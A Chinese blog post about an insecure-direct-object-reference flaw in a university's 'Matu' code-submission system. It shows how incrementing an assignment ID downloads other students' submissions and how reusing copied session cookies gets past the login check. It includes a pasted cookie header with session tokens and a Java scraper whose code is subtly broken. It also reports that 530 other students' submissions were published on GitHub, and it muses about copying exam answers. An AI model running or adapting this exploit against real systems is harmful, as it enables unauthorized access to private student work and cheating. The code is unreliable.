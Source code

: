 ```yaml
---
title: "怎么有人用码图啊"
date: 2021-09-20T15:57:28+08:00
draft: false
---
```




很久以前发现在浏览器里直接粘贴url就能自动下载码图提交的文件。而且是没有权限的，意味着你能下载到所有码图提交。而且对于请求次数也是没有限制的。

比如在已经登录码图的浏览器中复制这个url：http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038358

浏览器就会自动下载这个文件。

这时候就有人好奇了，把assignmentid改成1038357会怎么样？会下载到另一个人的提交，这一个提交是在你之前的最近一个提交。

最早的提交我看到id=72650，是2015年9月10号的提交，来自学号20140601xxxx的学长，题目是20_生成前n个自然数的一个随机置换。

那么能不能把所有的码图提交都下载下来呢？只要借助一个叫Open multiple url at one click的chrome插件，将你所想要下载的码图文件url贴进去，chrome就会给你下载了。

那么，假如我没有登录matu怎么办，或者我没有浏览器怎么办，又或是我能不能把码图的所有提交下载下来呢？

那应该怎么做呢，码图会拦截没有登录的请求，这时就要用cookies骗过matu了，借助代理软件，可以看到

get请求会带header，其中有cookie字段

```
Cookie:	JSESSIONID=ADCFAD008D39D46910DB82255253AD2E; III_EXPT_FILE=aa48738; III_SESSION_ID=d55956838bd4bf7c44eae6dbedc5d20a; SESSION_LANGUAGE=eng; zg_did=%7B%22did%22%3A%20%221784dfce5e2433-04d99af797b1f2-5771133-fa000-1784dfce5e3d03%22%7D; zg_=%7B%22sid%22%3A%201625496021694%2C%22updated%22%3A%201625496021698%2C%22info%22%3A%201625496021697%2C%22superProperty%22%3A%20%22%7B%7D%22%2C%22platform%22%3A%20%22%7B%7D%22%2C%22utm%22%3A%20%22%7B%7D%22%2C%22referrerDomain%22%3A%20%22eportal.uestc.edu.cn%22%2C%22cuid%22%3A%20%222019081305013%22%2C%22zs%22%3A%200%2C%22sc%22%3A%200%2C%22firstScreen%22%3A%201625496021694%7D; iPlanetDirectoryPro=tH0Ds91VHf5CpQJkwG4p3v
```

只要在请求头加上这个字段，就可以骗过拦截器了。

写了一个java程序

```Java
package matudownload;

import com.sun.net.httpserver.Headers;
import org.jsoup.Connection;
import org.jsoup.Jsoup;
import org.jsoup.nodes.Document;
import org.jsoup.nodes.Element;

import java.io.*;

public class downLoad {
    public static void download(String url,String filepath,String cookie)throws Exception {

            Connection con=Jsoup.connect(url);
            con.header("Cookie",cookie);
            Connection.Response res=con.method(Connection.Method.GET).execute();
         
            String head=res.header("content-disposition");
            String str=new String(head1.getBytes("ISO-8859-1"),"GBK");
            //注意http请求的header要求其中文必须为iso8859-1编码，此时需要转化成gbk编码
            str=str.toString().substring(21,str.length()-1);

            BufferedWriter bw = new BufferedWriter
                    (new OutputStreamWriter(new FileOutputStream(filepath)));
             bw.write(new String(res.body().toString()));
            bw.flush();
            bw.close();   
    }
   
    public static void main(String[] args) {
        try {
         String cookie="";
           //cookie需要你从已登陆matu的浏览器中获取 
            download("http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038000","D:/download",cookie);    
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



我在github仓库上传了1038000-1038530的530个提交，大家可以参考别人的matu提交代码互相学习。

https://github.com/BachWV/matu/tree/main/allMatuCommit





至于部分码图考试能不能用这种方法抄到别人的提交，我不知道，也希望码图早日把这个漏洞给补上。

